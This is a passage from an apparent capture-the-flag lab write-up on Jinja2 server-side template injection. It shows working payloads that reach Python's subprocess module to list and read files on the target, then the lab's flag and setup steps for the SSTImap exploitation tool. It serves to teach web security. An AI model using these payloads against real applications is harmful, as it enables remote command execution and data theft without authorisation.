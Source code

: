 ```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180105.png)

As seen, we got the hidden file, let's read it:

```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', '5d8bea6df83cbb6767a235c4ba54933b.txt'])}}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180211.png)

We got our flag:

```
THM{ecc43642dd6934d37c69598174e6e126}
```

# Automating the Exploitation
---

**SSTImap** is a tool that automates the process of testing and exploiting SSTI vulnerabilities in various template engines. Hosted on [GitHub](https://github.com/vladko312/SSTImap), it provides a framework for discovering template injection flaws.

If you're using AttackBox, the tool is installed in `/opt/SSTImap` directory. If you're using your own machine, you can install it by cloning the repository from GitHub and setting up its environment. Here's how you can get started:

1. **Clone the Repository**:
    
    ```bash
    git clone https://github.com/vladko312/SSTImap.git
    ```
    
2. **Navigate to the SSTImap Directory**:
    
    ```bash
    cd SSTImap
    ```
    
3. **Install Dependencies** (if any are listed, usually via a `requirements.txt`):
    
    ```bash
    pip install -r requirements.txt
    ```
    

SSTImap is capable of the following:

- **Template Engine Detection**: SSTImap can help identify the template engine used by a web application, which is crucial for crafting specific exploits.
- **Automated Exploitation**: For known vulnerabilities, SSTImap can automate the process of exploiting them.
